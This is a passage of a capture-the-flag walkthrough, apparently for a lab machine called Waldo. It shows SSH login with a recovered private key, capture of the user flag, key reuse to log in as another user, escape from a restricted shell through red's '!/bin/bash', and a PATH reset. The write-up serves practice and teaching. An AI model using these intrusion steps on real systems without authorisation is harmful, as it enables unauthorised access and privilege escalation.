 The key was in the `/home/nobody` so we can assume it if for the nobody user:
```
ssh -i monitor.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ cat user.txt
32768bcd7513[REDACTED]
waldo:~$
```
And we have the `user.txt`

Looking at the `authorized_keys` file and the name of the original private key file, it is possible that this box suffers from a key reuse vulnerability for the monitor user. It doesn't hurt to try so lets attempt to ssh to localhost, this time as monitor:
```
waldo:~$ cat .ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgkfqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlRtJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbBVeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+arOD6NJOFJY4jBHvf monitor@waldowaldo:~$
waldo:~$ ssh -i .ssh/.monitor monitor@127.0.0.1
```
![7.png]({{site.baseurl}}/Images/Waldo/7.png)

Looks like we found Wal(ly)do

Trying to navigate around we seem to be in a restricted shell. 
![8.png]({{site.baseurl}}/Images/Waldo/8.png)

Looking at the bin directory we can see that we can only run a couple of restricted applications:
```
monitor@waldo:~$ ls bin
ls  most  red  rnano
```
`red` and `rnano` are the restricted versions of the standard `ed` and `nano` applications. A common method to escape a restricted shell is to use the restricted application to run `bash`. We can use `red` to do that:
```
monitor@waldo:~$ red
!/bin/bash
bash: dircolors: command not found
monitor@waldo:~$ cd ..
monitor@waldo:/home$
```
We are now able to run normal bash commands, but we still seem to be restricted to certain applications. Looking at our current `$PATH` variable we are able to see why:
```
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
So we need to change our path back to the default:

monitor@waldo:~$ export PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:$PATH
```
Now it's feeling more like a proper terminal.
